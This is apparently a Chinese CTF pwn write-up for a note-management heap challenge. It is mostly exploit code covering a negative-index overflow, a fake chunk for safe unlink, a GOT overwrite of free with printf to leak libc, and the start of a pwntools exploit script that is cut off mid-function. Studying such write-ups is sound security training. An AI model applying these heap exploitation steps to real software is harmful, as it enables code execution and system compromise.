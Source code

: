 ```
```
首先创建8个note，然后edit note3使current_ptr指向note3，之后使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我们使用的溢出数据是用于构造一个fake chunk来实现safe unlink的利用，具体的原理可以看这一章节的讲解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之后释放note4，note3与note4就会合并。note3_ptr会指向note0_ptr的位置。这样我们通过不断的修改note0_ptr的值和edit note0就可以实现任意地址写数据。

但是题目没有提供show功能，所以无法进行任意地址读，也就无法泄漏数据。
这里采用的办法是把free的got表改为printf的值，然后在bbs中一块空白的区域写入"%x"。
这样当free这块区域（这块区域在ptr_array中，所以可以直接传递给free），就可以泄漏出栈中的数据。
通过栈中的libc地址求出system的地址就可以利用任意地址写获得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
```